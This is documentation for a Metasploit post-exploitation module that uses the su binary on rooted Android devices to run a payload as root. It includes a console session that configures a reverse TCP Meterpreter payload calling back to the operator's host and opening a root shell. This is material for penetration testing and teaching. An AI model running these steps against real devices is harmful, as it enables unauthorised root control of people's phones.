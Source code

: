 ## Vulnerable Application

This module uses the su binary present on rooted devices to run a payload as root.

A rooted Android device will contain a su binary (often linked with an application) that allows the user to run commands as root.
This module will use the su binary to execute a command stager as root. The command stager will write a payload binary to a
temporary directory, make it executable, execute it in the background, and finally delete the executable.

On most devices the su binary will pop-up a prompt on the device asking the user for permission.

This module will only work on *rooted* devices. An off the shelf Android device is unlikely to be rooted, however it's possible to root a device without losing the data.
Many devices can be rooted by flashing new firmware, however the existing data will be lost.

## Scenarios

You'll first need to obtain a session on the target device. To do this follow the instructions [here](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/reverse_tcp.md)

Once the module is loaded, one simply needs to set the `SESSION` option and configure the handler. 
An example session follows:

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                        Information         Connection
  --  ----  ----                        -----------         ----------
  1         meterpreter dalvik/android  u0_a80 @ localhost  192.168.0.176:4444 -> 192.168.0.107:46059 (192.168.0.107)

msf5 exploit(multi/handler) > use exploit/android/local/su_exec
msf5 exploit(android/local/su_exec) > set SESSION 1
SESSION => 1
msf5 exploit(android/local/su_exec) > set payload linux/aarch64/meterpreter/reverse_tcp
payload => linux/aarch64/meterpreter/reverse_tcp
msf5 exploit(android/local/su_exec) > set LHOST 192.168.0.176
LHOST => 192.168.0.176
msf5 exploit(android/local/su_exec) > set LPORT 4445
LPORT => 4445
msf5 exploit(android/local/su_exec) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.176:4445
[*] Transmitting intermediate midstager...(256 bytes)
[*] Sending stage (818780 bytes) to 192.168.0.107
[*] Meterpreter session 2 opened (192.168.0.176:4445 -> 192.168.0.107:49710) at 2018-10-01 17:44:50 +0800
[-] Exploit failed: Rex::TimeoutError Operation timed out.
[*] Exploit completed, but no session was created.

```

Please not that in most cases you will have to manually confirm the Superuser prompt 
on the device itself before the module completes. You can do `set WfsDelay 10` to
give yourself more time.

